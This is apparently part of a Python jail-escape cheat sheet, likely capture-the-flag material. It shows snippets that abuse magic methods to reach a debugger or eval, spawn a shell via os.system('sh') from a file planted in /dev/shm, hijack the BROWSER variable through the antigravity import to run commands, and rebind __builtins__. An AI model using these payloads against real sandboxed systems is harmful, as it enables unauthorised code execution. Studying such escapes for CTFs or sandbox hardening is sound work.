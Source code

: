 ```py
'test'
```
#### magic methods
```py
>>> help.__class__.__str__ = breakpoint
>>> f"{help}"
TypeError: __str__ returned non-string (type NoneType)
> <stdin>(1)<module>()
(Pdb) 
```
```py
>>> help.__class__.__format__ = eval
>>> f"{help:print(1)}"
1
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: __format__ must return a str, not NoneType
```
```py
>>> license.__class__.__enter__ = breakpoint
>>> license.__class__.__exit__ = lambda *_:0
>>> with license as b: pass
... 
--Call--
> <stdin>(1)<lambda>()
(Pdb) 
```

### No dots
```py
print("__import__('os').system('sh')", file=open('/dev/shm/exploit.py', 'w'))
setattr(__import__('sys'), 'path', ["/dev/shm"])
__import__("exploit")
```
```py
__import__('antigravity', setattr(__import__('os'), 'environ', dict(BROWSER = '/bin/sh -c "ls -la" #%s')))
```
```py
__builtins__ = __import__('os')
system('sh')
```

### Attribute assignment with no equal sign
```py
>>> setattr(a, 'b', 1)
```
```py
>>> [0 for a.b in [1]]
>>> a.b
1
```

